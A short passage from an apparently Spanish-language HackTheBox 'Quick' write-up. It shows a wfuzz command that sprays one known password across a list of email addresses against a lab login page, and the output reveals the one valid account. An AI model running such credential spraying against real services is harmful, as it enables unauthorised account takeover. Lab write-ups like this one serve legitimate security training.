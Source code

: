 Ahora mediante fuerza bruta trataremos de encontrar una credencial valida, para ello usaremos `wfuzz`.


```bash
❯ wfuzz -c --hc=404 -t 50 -w $(pwd)/users.txt -d 'email=FUZZ&password=Quick4cc3$$' "http://10.10.10.186:9001/login.php"
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.186:9001/login.php
Total requests: 18

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                               
=====================================================================

000000003:   200        0 L      2 W        80 Ch       "tim@qconsulting.uk"                                                                                                  
000000007:   200        0 L      2 W        80 Ch       "roy@quick.htb"                                                                                                       
000000015:   200        0 L      2 W        80 Ch       "james@quick.htb"                                                                                                     
000000014:   200        0 L      2 W        80 Ch       "james@lazycoop.com"                                                                                                  
000000001:   200        0 L      2 W        80 Ch       "tim@qconsulting.co.uk"                                                                                               
000000012:   200        0 L      2 W        80 Ch       "elisa@wink.com"                                                                                                      
000000016:   200        0 L      2 W        80 Ch       "mike@quick.htb"                                                                                                      
000000013:   200        0 L      2 W        80 Ch       "james@lazycoop.cn"                                                                                                   
000000018:   200        0 L      2 W        80 Ch       "jhon@quick.htb"                                                                                                      
000000017:   200        0 L      2 W        80 Ch       "jane@quick.htb"                                                                                                      
000000006:   200        0 L      2 W        80 Ch       "roy@darkwng.us"                                                                                                      
000000010:   302        0 L      0 W        0 Ch        "elisa@wink.co.uk"                                                                                                    
000000011:   200        0 L      2 W        80 Ch       "elisa@quick.htb"                                                                                                     
000000009:   200        0 L      2 W        80 Ch       "elisa@wink.uk"                                                                                                       
000000002:   200        0 L      2 W        80 Ch       "tim@qconsulting.co"                                                                                                  
000000005:   200        0 L      2 W        80 Ch       "tim@quick.htb"                                                                                                       
000000008:   200        0 L      2 W        80 Ch       "roy@darkwng.com"                                                                                                     
000000004:   200        0 L      2 W        80 Ch       "tim@qconsulting.com"                                                                                                 
```
